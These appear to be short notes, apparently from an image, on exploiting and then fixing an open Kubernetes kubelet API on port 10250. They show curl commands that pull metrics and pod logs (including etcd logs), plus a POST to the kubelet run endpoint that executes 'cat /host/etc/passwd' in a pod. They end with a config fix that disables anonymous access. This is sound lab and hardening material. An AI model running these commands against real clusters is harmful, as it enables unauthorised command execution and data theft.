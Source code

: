 
# get infos

<!-- external ip does not work -->

curl -k https://$IP:10250/metrics
curl -k https://$IP:10250/logs/
curl -k https://$IP:10250/logs/pods/    <!-- last slash is important -->\
curl -k https://$IP:10250/logs/pods/kube-system_etcd-lod_25977589a391e2bdeecfd7f56555caca/etcd/0.log

# get info about the host

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

# fix it

vi /var/lib/kubelet/config.yaml
=> enabled: false
=> mode: Webhook
<!-- systemctl daemon-reload -->
systemctl restart kubelet
<!-- systemctl status kubelet -->

... run curls again
